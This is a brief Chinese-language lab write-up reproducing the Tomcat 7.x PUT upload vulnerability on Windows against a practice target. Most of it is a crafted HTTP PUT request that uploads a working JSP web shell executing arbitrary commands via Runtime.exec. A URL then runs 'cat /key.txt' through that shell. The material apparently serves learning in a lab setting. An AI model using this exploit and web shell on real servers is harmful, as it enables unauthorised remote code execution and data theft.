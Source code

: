 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/120  
复现版本：Tomcat 7.0.79

# 0x01 环境搭建
无

# 0x02 利用条件
安装在Windows下

# 0x03 影响版本
7.0.0 <= Tomcat <= 7.0.79

# 0x04 漏洞复现
攻击环境：kali2020

访问目标地址，burp抓包，改包如下：  
```
PUT /cmd.jsp// HTTP/1.1
PUT /cmd.jsp/ HTTP/1.1
PUT /cmd.jsp HTTP/1.1
Host: 219.153.49.228:45174
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 313

<%
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```
Send后，返回如下，返回“HTTP/1.1 201 Created”表示文件创建成功  
![image](./f0.png)  
访问如下URL：http://219.153.49.228:45174/cmd.jsp?cmd=cat%20/key.txt 后，返回执行命令后的结果  
![image](./f1.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
